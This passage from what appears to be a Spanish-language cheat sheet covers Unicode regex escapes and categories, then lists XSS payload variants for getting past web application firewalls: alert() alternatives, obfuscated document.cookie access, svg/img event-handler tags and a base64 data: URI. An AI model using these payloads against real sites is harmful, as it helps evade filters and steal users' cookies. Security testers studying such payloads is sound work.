 ejemplo:

```
\u2603   = the snowman character in .NET, Java, Javascript and Python
\x{2603} = the snowman character in Apache and PHP (PCRE library)
```

**Meta-sequence Quality**:

```
\p{quality-id} = tener una calidad específica
\P{quality-id} = no tener calidad
```

**Match Unicode Category**:

```
# Para combinar la cuerda con todas las variaciones de la caja (menor, superior y título), este regex hace el trabajo:
[\p{Ll}\p{Lu}\p{Lt}]

# Como abreviatura, algunos sabores de regex implementan esta solución:
\p{L&}
```

### Web Application Firewal - WAF

ByPass WAFs

```
|-| = en vez de usar esto
|→| = la mejor opción es
```

#### Cross-Site Scripting:

```
- alert('xss') 
- alert(1)
→ prompt('xss') 
→ prompt(8)
→ confirm('xss')
→ confirm(8)
→ alert(/xss/.source)
→ window[/alert/.source](8)

- alert(document.cookie) 
→ with(document)alert(cookie) 
→ alert(document['cookie'])
→ alert(document[/cookie/.source])
→ alert(document[/coo/.source+kie/.source])

- <img src=x onerror=alert(1);>
→ <svg/onload=alert(1)>
→ <video src=x onerror=alert(1);>
→ <audio src=x onerror=alert(1);>

- javascript:alert(document.cookie)
→ data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```
